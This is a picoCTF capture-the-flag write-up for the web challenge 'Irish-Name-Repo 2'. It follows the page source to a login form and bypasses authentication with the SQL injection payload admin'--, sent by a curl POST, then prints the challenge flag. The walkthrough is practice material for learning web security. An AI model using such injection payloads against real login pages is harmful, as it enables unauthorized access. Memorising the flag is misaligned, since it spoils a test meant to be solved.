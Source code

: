 # PicoGym Web Exploitation Writeup

Author: [Kuldeep Singh Chouhan](https://github.com/kuldeep-singh-chouhan)

Challenge Page: [Irish-Name-Repo 2](https://jupiter.challenges.picoctf.org/problem/64649/)

## Walkthrough
To gather some information let's see the HTML source code by using 
`curl https://jupiter.challenges.picoctf.org/problem/64649/`.
A part of the source code hints towards `login.html`.
```html
<!-- Sidebar (hidden by default) -->
<nav class="w3-sidebar w3-bar-block w3-card w3-top w3-xlarge w3-animate-left" style="display:none;z-index:2;width:40%;min-width:300px" id="mySidebar">
  <a href="javascript:void(0)" onclick="w3_close()" class="w3-bar-item w3-button">Close Menu</a>
  <a href="support.html" class="w3-bar-item w3-button">Support</a>
  <a href="login.html" class="w3-bar-item w3-button">Admin Login</a>
</nav>
```

Let's go to `login.html` by `curl https://jupiter.challenges.picoctf.org/problem/64649/login.html`. Here, we see `login.php`
```html
<form action="login.php" method="POST">
        <fieldset>
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" class="form-control">
            </div>
            <div class="form-group">
                <label for="password">Password:</label>
                <div class="controls">
                    <input type="password" id="password" name="password" class="form-control">
                </div>
            </div>
            <input type="hidden" name="debug" value="0">

            <div class="form-actions">
                <input type="submit" value="Login" class="btn btn-primary">
            </div>
        </fieldset>
    </form>
```
Try going to `login.php` by `curl https://jupiter.challenges.picoctf.org/problem/64649/login.php`. Login will fail. Try username as `admin'--` and password as `asdf` (anything).
`curl https://jupiter.challenges.picoctf.org/problem/64649/login.php --data "username=admin'--&password=asdf"`.
Flag found!!

## Flag
`picoCTF{m0R3_SQL_plz_aee925db}`

## Useful resources
Commenting in [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks).

## Suggested modifications
Word `admin` could be filtered so that use of string concatenation operator could be made.
